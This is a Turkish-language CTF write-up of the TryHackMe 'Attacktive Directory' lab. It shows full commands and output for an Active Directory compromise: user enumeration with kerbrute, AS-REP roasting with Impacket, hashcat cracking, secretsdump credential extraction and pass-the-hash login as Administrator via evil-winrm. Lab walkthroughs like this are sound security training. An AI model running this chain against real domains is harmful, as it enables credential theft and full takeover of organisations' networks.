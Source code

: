 ```yaml
---
title: "Attacktive Directory Makine Çözümü"
date: "2025-03-22"
tags: ["ctf", "tryhackme"]
---
```


Merhabalar, bu yazımda sizlere [TryHackMe](https://tryhackme.com/) platformunda bulunan "Attacktive Directory" isimli makinenin çözümü anlatacağım. Keyifli Okumalar...

1 - *Nmap* aracını kullanarak makine üzerindeki açık portlar ve servisler hakkında detaylı bilgi ediniyorum.

```system
> nmap -sS -sV 10.10.22.226
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-05 16:19 +03
Nmap scan report for 10.10.22.226
Host is up (0.078s latency).
Not shown: 987 closed tcp ports (reset)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-06-05 13:19:16Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: spookysec.local0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: spookysec.local0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
3389/tcp open  ms-wbt-server Microsoft Terminal Services
Service Info: Host: ATTACKTIVEDIREC; OS: Windows; CPE: cpe:/o:microsoft:windows
```

2 - "enum4linux" aracı ile makine üzerinde tarama yapıyorum. Tarama sonucu öğrendiğimiz "spookysec.local" domainini de /etc/hosts dosyasına ekliyorum.

```system
> enum4linux 10.10.22.226

*
Domain Name: THM-AD
*

> echo "10.10.22.226 spookysec.local" | tee -a /etc/hosts
```

3 - Kerbrute aracını kullanarak kullanıcı adı taraması yapıyorum. Tarama sonucunda Admin yetkisindeki bir kaç kullanıcıyı buluyorum. Bu kullanıcı adlarını "user.txt" adında bir dosyaya kaydediyorum.

```
> kerbrute userenum --dc 10.10.22.226 -d spookysec.local -t 20 userlist.txt

```

4 - Kaydettiğim kullanıcı adlarını kullanarak Impacket kütüphanesi içindeki GetNPUsers.py betiğini kullanıyorum. Bu betik kullanıcı kimlik bilgilerini elde etmeye yarar.

```system
> python3 /usr/share/doc/python3-impacket/examples/GetNPUsers.py -no-pass -usersfile user.txt -dc-ip 10.10.22.226 spookysec.local/ -o kerberos_result
```

5 - Betiği kullandıktan sonra elde ettiğim hashi kırmak için hashcat aracını kullanıyorum. Önceliklle "Kerberos 5 AS-REP" türünün ID'sini öğreniyorum. Daha sonra bize verilen şifreler ile bu hashi kırmaya çalışıyorum.

```system
> hashcat --help | grep "Kerberos"                                                                                 
  19600 | Kerberos 5, etype 17, TGS-REP                              | Network Protocol
  19800 | Kerberos 5, etype 17, Pre-Auth                             | Network Protocol
  28800 | Kerberos 5, etype 17, DB                                   | Network Protocol
  19700 | Kerberos 5, etype 18, TGS-REP                              | Network Protocol
  19900 | Kerberos 5, etype 18, Pre-Auth                             | Network Protocol
  28900 | Kerberos 5, etype 18, DB                                   | Network Protocol
   7500 | Kerberos 5, etype 23, AS-REQ Pre-Auth                      | Network Protocol
  13100 | Kerberos 5, etype 23, TGS-REP                              | Network Protocol
  18200 | Kerberos 5, etype 23, AS-REP                               | Network Protocol

> hashcat -m 18200 kerberos_result passwordlist.txt
```

6 - *svc-admin* kullanıcının kimlik bilgilerini kullanarak SMB servisinin içeriğini görüntülüyorum.

```system
smbclient -L \\10.10.22.226 -U svc-admin                                                                         
Password for [WORKGROUP\svc-admin]:

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	backup          Disk      
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	SYSVOL          Disk      Logon server share 
```

7 - "backup" isimli klasöre girip dizinin içeriğini listeliyorum. 

```system
> smbclient \\\\10.10.22.226\\backup -U svc-admin
```

8 - Kimlik bilgilerinin base64 ile şifrelendiğini anlıyorum ve decode ederek açık metni elde ediyorum.

```system
> cat backup_credentials.txt | base64 -d
```

9 - Etki alanı denetleyicisinden kimlik bilgilerini çekmek için *Impacket* kütüphanesi içerisindeki secrestsdump.py betiğini kullanıyorum.

```system
> python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -just-dc backup@spookysec.local -outputfile secrets_dump
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Password:
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
```

10 - Administrator kullanıcısının hashini kullanarak evil-winrm aracı ile makineye bağlanıyorum. Bağlantıktan sonra 3 bayrağı da okuyarak makineyi tamamlıyorum.

```system
evil-winrm -i 10.10.22.226 -u Administrator -H "HASH"                            

Evil-WinRM shell v3.5

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> type C:\Users\svc-admin\Desktop\user.txt.txt
***CENSORED***

*Evil-WinRM* PS C:\Users\Administrator\Documents>  type C:\Users\backup\Desktop\PrivEsc.txt
***CENSORED***

*Evil-WinRM* PS C:\Users\Administrator\Documents> type C:\Users\Administrator\Desktop\root.txt
***CENSORED***
```
